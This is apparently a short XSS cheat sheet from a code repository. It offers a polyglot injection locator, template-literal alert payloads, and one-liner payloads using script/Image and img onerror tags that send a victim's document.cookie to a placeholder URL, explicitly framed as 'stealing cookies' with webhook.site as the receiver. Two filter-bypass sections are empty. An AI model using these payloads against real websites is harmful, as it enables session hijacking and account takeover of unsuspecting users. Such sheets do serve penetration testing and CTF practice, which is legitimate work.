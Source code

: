 # General Resources
[Webhook.site](https://webhook.site/) - Basically required to steal cookies without Burp Collaborator
[Portswigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) - XSS payload search (useful for making Burp Intruder payloads)

# XSS Locator
```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

# Stealing Cookies
Some quick payloads for stealing cookies.
## General One-Liner (Use this one first)
```javascript
<script>var i=new Image;i.src="[URL]/?"+document.cookie;</script>
```
**Example usage of above:**
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```
## Using ``<img>`` Tag
```javascript
<img src=x onerror="this.src='[URL]/?'+document.cookie;this.removeAttribute('onerror');"/>
```

# Filter Bypasses
## HTML Entities
```
```

## No parentheses
```
```


# AngularJS
[PayloadsAllTheThings - XSS in AngularJS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# XSS Template Literal Payloads
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

